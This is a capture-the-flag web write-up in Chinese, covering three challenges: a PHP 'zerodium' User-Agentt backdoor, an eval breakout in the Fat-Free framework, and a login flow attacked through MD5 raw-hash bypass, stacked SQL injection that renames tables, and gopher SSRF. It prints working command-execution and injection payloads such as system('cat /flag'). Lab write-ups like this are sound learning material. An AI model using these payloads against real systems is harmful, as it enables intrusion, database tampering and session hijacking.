 # web

## 签到

一个最近刚爆出来的php后门，直接一把梭

```
User-Agentt: zerodiumsystem("cat /flag");
```

## unset

一开始百度搜一下发现是fatfree框架，然后github一瞬间获取源码，本地搭建发现报错嘻嘻

```
syntax error, unexpected '.', expecting :: (T_PAAMAYIM_NEKUDOTAYIM) [G:\phpstudy_pro\WWW\yyds.top\lib\base.php(530) : eval()'d code:1]
```

在eval前加了个echo发现真的调用连，

```
unset($this->hive['后面是我们a=的内容
```

发现有过滤太长了吧，自己本独测试发现有phpinfo但是后面执行命令不行

```
a=a[%27phpinfo%27()]
```

尝试执行

```
?a=a[%27system%27(ls)]
```

但是多了空格不行换个思路

尝试php几种常用bypass，日常fuzz发现%0a加上直接成功闭合还能绕过后面过滤，然后芜湖起飞，闭合前面中间任意执行绕过过滤注释后面

```
?a=1%0a);system('cat /flag');//
```

## 系统

MD5-true的登录过滤前面用后面

```
ffifdyop和129581926211651571912466741651878684928
```

进去后我各种姿势失败

```
username=0';show tables;%23&password=1
```

之后

```
username=admin';show columns from real_admin_here_do_you_find ;#&password=a
```

尝试很多堆叠注入姿势失败，`prepare和set也不能同时出现`

发现可以改表名

```
rename tables fake_admin to fuck ; rename tables real_admin_here_do_you_find to fake_admin ;
```

然后的都

```
admin密码是5fb4e07de914cfc82afb44vbaf402203
```

然后用gopher发送下面这个获取cookie后

```
POST /admin.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

username=admin&password=5fb4e07de914cfc82afb44vbaf402203
```

再发

```
GET /flag.php HTTP/1.1
Host: 127.0.0.1
Cookie: PHPSESSID=c3bv46re495tugnt3vegmo25d2;

```

页面即可获得flag，做完这题人累死了哭哭